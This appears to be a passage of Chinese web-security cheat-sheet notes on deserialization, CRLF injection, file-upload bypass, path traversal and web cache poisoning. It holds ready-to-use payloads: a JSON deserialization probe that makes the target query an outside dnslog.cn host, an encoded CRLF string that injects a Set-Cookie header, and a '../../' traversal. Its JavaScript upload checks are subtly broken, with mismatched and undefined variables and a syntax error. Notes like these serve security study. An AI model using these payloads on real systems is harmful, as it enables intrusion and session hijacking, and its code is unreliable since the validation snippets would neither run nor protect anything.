 DNS query record
{"@type": "java.net.Inet4Address", "val":".dnslog.cn"}

## CRLF注入漏洞
CRLF(\r\n)，十六进制码为0x0d,0x0a
HTTP协议中，HTTP Header 与 HTTP Body 是CRLF分割

/%0a%0dSet-Cookie:%20session_id=123

## 文件上传漏洞

- [x] 文件上传目录设为不可执行

- [x] 文件上传类型(不允许恶意脚本)校验绕过
```js
const allow_types = ['text/html', 'image/gif','application/zip','application/json', 'application/octet-stream']

const checkFile = file => {
  if(!ALLOWED_TYPES.includes(file.type)) {
    const errMsg ="不支持上传该文件类型: " + ext_name
      message.error(errMsg)
  }
)
}
```
- [x] 文件拓展名检测绕过
```js
const allow_exts_name = '.gif|.jpg'
const checkFile = filename => {
  const ext_name = file_substring(filename.lastIndexOf(".")
    if(allow_exts_name.indexOf(ext_name) < 0) {
      const errMsg ="不支持上传该文件类型: " + ext_name
        message.error(errMsg)
    }
}
```

## 文件下载漏洞

- [x] PATH TRAVERSAL路径遍历
../../ 跨目录下载


## web缓存
```http
X-Forwarded-Host: www.weakness.com
```

```http
X-Cache: miss
```
